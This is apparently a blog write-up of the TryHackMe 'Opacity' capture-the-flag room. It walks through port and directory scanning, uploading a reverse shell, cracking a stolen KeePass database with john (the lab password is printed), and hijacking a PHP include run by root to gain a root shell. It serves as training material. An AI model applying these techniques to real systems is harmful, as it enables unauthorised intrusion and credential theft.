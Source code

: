```yaml
---
title: Opacity-writeup-THM
date: 2024-01-08
categories: [room, easy]
tags: [linux, smb]    # TAG names should always be lowercase
image: https://images.unsplash.com/photo-1596703720229-1f8fbb8daae5?q=80&w=2574&auto=format&fit=crop&ixlib=rb-4.0.3&ixid=M3wxMjA3fDB8MHxwaG90by1wYWdlfHx8fGVufDB8fHx8fA%3D%3D
---
```

## My writeup of the TryHackMe room "<a href="https://tryhackme.com/room/opacity">Opacity</a>"

I am going to start with a nmap scan:

```bash
nmap -sC -sV 10.10.163.225

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-05 09:11 EST
Nmap scan report for 10.10.163.225
Host is up (0.057s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 0f:ee:29:10:d9:8e:8c:53:e6:4d:e3:67:0c:6e:be:e3 (RSA)
|   256 95:42:cd:fc:71:27:99:39:2d:00:49:ad:1b:e4:cf:0e (ECDSA)
|_  256 ed:fe:9c:94:ca:9c:08:6f:f2:5c:a6:cf:4d:3c:8e:5b (ED25519)
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-title: Login
|_Requested resource was login.php
|_http-server-header: Apache/2.4.41 (Ubuntu)
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_nbstat: NetBIOS name: OPACITY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-time: 
|   date: 2024-01-05T14:12:03
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.04 seconds
```

Now we know that it runs HTTP and SAMBA,

first let’s see what’s in the web page:

![Untitled](https://raw.githubusercontent.com/Blueaulo/Opacity-writeup-THM/main/099e4dcc-8d66-4a36-8ebc-076e03053aef_Export-837ad346-3d23-4d4a-9c1e-e576658a205a/Opacity%200ac982ae7c05472f984b5712f3032562/Untitled.png)

We can see that there is a login page.

But there are other directories:

```bash
ffuf -u http://10.10.163.225/FUZZ -w /usr/share/wordlists/dirb/big.txt

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.163.225/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.htaccess               [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 6221ms]
.htpasswd               [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 6475ms]
cloud                   [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 57ms]
css                     [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 2377ms]
server-status           [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 56ms]
:: Progress: [20469/20469] :: Job [1/1] :: 327 req/sec :: Duration: [0:00:46] :: Errors: 0 ::
```

The cloud one could let us upload a reverse shell:

![Untitled](https://raw.githubusercontent.com/Blueaulo/Opacity-writeup-THM/main/099e4dcc-8d66-4a36-8ebc-076e03053aef_Export-837ad346-3d23-4d4a-9c1e-e576658a205a/Opacity%200ac982ae7c05472f984b5712f3032562/Untitled%201.png)

We need to start our listener with a revshell.php, and upload the php code like that to avoid the security measurements:

![Untitled](https://raw.githubusercontent.com/Blueaulo/Opacity-writeup-THM/main/099e4dcc-8d66-4a36-8ebc-076e03053aef_Export-837ad346-3d23-4d4a-9c1e-e576658a205a/Opacity%200ac982ae7c05472f984b5712f3032562/Untitled%202.png)

So we got the shell:

```bash
nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.11.65.91] from (UNKNOWN) [10.10.163.225] 37874
Linux opacity 5.4.0-139-generic #156-Ubuntu SMP Fri Jan 20 17:27:18 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
 14:47:56 up 37 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

In the opt folder I found out a dataset.kdbx file which stores the keepass credentials.

I copied it in the / folder so I could download it from my machine.

This type of file can be cracked using john:

```bash
john --wordlist=/usr/share/wordlists/seclists/Passwords/Leaked-Databases/rockyou.txt Keepasshash.txt  
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 100000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
741852963        (dataset)     
1g 0:00:00:04 DONE (2024-01-05 09:58) 0.2105g/s 185.2p/s 185.2c/s 185.2C/s chichi..david1
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

And now if we open the file with keepass we got the credentials!

```bash
ssh sysadmin@10.10.163.225

sysadmin@10.10.163.225's password: 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-139-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri 05 Jan 2024 03:03:45 PM UTC

  System load:  0.02              Processes:             125
  Usage of /:   57.1% of 8.87GB   Users logged in:       0
  Memory usage: 28%               IPv4 address for eth0: 10.10.163.225
  Swap usage:   0%

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

 * Introducing Expanded Security Maintenance for Applications.
   Receive updates to over 25,000 software packages with your
   Ubuntu Pro subscription. Free for personal use.

     https://ubuntu.com/pro

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status

The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Wed Feb 22 08:13:43 2023 from 10.0.2.15
sysadmin@opacity:~$
```

And we got the first flag.

From here we have a scripts folder, inside there is a file owned by root:

```bash
cat script.php 
<?php

//Backup of scripts sysadmin folder
require_once('lib/backup.inc.php');
zipData('/home/sysadmin/scripts', '/var/backups/backup.zip');
echo 'Successful', PHP_EOL;

//Files scheduled removal
$dir = "/var/www/html/cloud/images";
if(file_exists($dir)){
    $di = new RecursiveDirectoryIterator($dir, FilesystemIterator::SKIP_DOTS);
    $ri = new RecursiveIteratorIterator($di, RecursiveIteratorIterator::CHILD_FIRST);
    foreach ( $ri as $file ) {
        $file->isDir() ?  rmdir($file) : unlink($file);
    }
}
?>
```

We see that this script calls `lib/backup.inc.php` so what I have done is moving the original script out of the folder, and instead put mine which contains a reverse shell(I have used the pentestermonkey one)

So the next time that the main script runs, we should have a reverse shell:

```bash
nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.11.65.91] from (UNKNOWN) [10.10.163.225] 55346
Linux opacity 5.4.0-139-generic #156-Ubuntu SMP Fri Jan 20 17:27:18 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
 15:20:02 up  1:09,  1 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
sysadmin pts/0    10.11.65.91      15:03    1:05   0.08s  0.08s -bash
uid=0(root) gid=0(root) groups=0(root)
bash: cannot set terminal process group (2322): Inappropriate ioctl for device
bash: no job control in this shell
root@opacity:/# ls
```